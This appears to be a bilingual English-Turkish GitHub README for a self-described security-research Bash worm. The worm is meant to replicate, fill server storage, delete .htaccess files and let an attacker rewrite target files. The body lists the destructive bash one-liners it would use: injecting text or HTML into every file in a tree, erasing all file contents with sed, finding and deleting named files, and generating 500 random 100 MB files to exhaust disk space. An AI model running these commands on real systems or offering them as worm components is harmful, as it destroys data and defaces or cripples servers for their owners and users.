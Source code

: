 # Bash Script Worm (Security Research)
# Author: Efe Cetinkaya


# EN: The purpose of the project was,
to see how complex a Computer Worm I could write on Linux-based servers using the Bash Script language through an attack scenario. Essentially, my goal was to create a small worm on the server that can replicate itself, occupy memory space by filling it with unnecessary files, target and delete .htaccess files if possible (usually for web applications), and allow the attacker to add and edit the content of target files according to the scenario. If this project is completed, it could be further developed and used for educational purposes and penetration testing in the field of cyber security.

# TR: Projenin amacı,
Bash Script dilini kullanarak bir saldırı senaryosu üzerinden Linux tabanlı sunucularda ne kadar komplike bir Computer Worm yazabileceğimi görmekti. Temelde sunucu üzerinde; kendini kopyalayan, bellek alanını gereksiz dosyalarla doldurup işgal eden, mümkünse (genelde web aplikasyonları için) .htaccess dosyalarını hedef alıp silebilen, hedef dosyaların içerğinide senaryoya göre saldırgan tarafından ekleme ve düzenleme yapabilen küçük bir solucan yaratmaktı amacım. Daha da geliştirilebilir bu proje tamamlandığı takdirde siber güvenlik alanında, eğitim amaçlı ve penetrasyon testlerinde kullanılabilir.


- "find . '(' -type d -name filmler -prune ')' -o '(' -type d -name otherdir -prune ')' -o -name '*baba*.txt' -prune -o -name '*mem*.txt' -prune -o -type f -print" --> "mem" ve "baba" adları ile beraber "filmler" ve "otherdir" dizinlerini de taramaya dahil etmez, yani find komutuyla aynı anda 2 dosya adını ve 2 dizin adını aramadan hariç tuttuk ve bu şekilde 2 veya daha fazla dosya veya dizin adını tek komutda dışlayabilirsin. --> https://stackoverflow.com/questions/64362890/exclude-both-file-and-directory-at-the-same-time-with-find-command

- "find . '(' -type d -name filmler -prune ')' -o -name '*baba*.txt' -prune -o -name '*mem*.txt' -prune -o -type f -print" --> "mem" ve "baba" adları dışında "filmler" dizinini de taramaya dahil etmez, yani find komutuyla aynı anda 2 dosya adını ve 1 dizin adını aramadan hariç tuttuk. --> https://stackoverflow.com/questions/64362890/exclude-both-file-and-directory-at-the-same-time-with-find-command

- "find . -type f -name '*.txt' ! -name '*baba*.txt' ! -name '*mem*.txt'" --> .txt uzantılı tüm dosyaları arar fakat isminde "baba" ve "mem" kelimesi içeren tüm .txt dosyalarını hariç tutar. --> https://stackoverflow.com/questions/22558245/exclude-list-of-files-from-find

- "find . -type f -name "*.txt" ! -path "./Movies/*" ! -path "./Downloads/*" ! -path "./Music/*"" --> Sadece belirli dizin veya dizinleri hariç tutmak isteseydik bu komutu bu parametlerlekullanacaktık. --> https://www.cyberciti.biz/faq/find-command-exclude-ignore-files/

- "find . -type f | xargs -d '\n' sh -c 'echo "<--HTML-YAZISI=\"tınak-isaretli-yazi\"-->" | tee "$@"' _" --> Tırnak işaretlerini (") başlarına (\) bu ifadeyi getirerek ekletebilirsin. --> https://github.com/koalaman/shellcheck/wiki/SC2140

- "find . -type f | xargs -d '\n' sh -c 'echo "html-kodu" | tee "$@"' _" -->  Bulunduğun dizin ve altındaki tüm dizinlerdeki dosyaların hepsine yazı veya kod ekler. --> https://stackoverflow.com/questions/64336217/i-need-help-applying-this-command-to-all-files-and-subdirectories-echo-text

- "find . -type f -exec sed -i 's/.//g' {} +" --> Bulunduğun dizin ve altındaki tüm dizinlerdeki dosyaların hepsinin içeriğini siler. --> http://web.deu.edu.tr/doc/lis/lis-7.html

- "find . -type f -name "SILINECEK-DOSYA" -exec rm -f {} \;"--> Bulunduğun dizin ve altındaki tüm dizinlerde ".htaccess" dosyalarını arayıp bulur ve siler  --> https://bilgegunluk.com/linux-bul-ve-sil-komutu-find-and-delete-command/

- "{0001..0500}" arası yani 500 tane dosya oluşturur

- "do head -c 100M" 100 MB büyüklüğünde olur her bir dosya

- "</dev/urandom >$RANDOM$i; done", "$RANDOM" yerine ($i dahil edilmeden direkt $RANDOM'un yerine) file yazılırsa dosya isimleri file0001 file0002 olur!

- "for i in {0001..0500}; do head -c 100M </dev/urandom >$RANDOM$i; done" --> https://unix.stackexchange.com/questions/199863/create-many-files-with-random-content
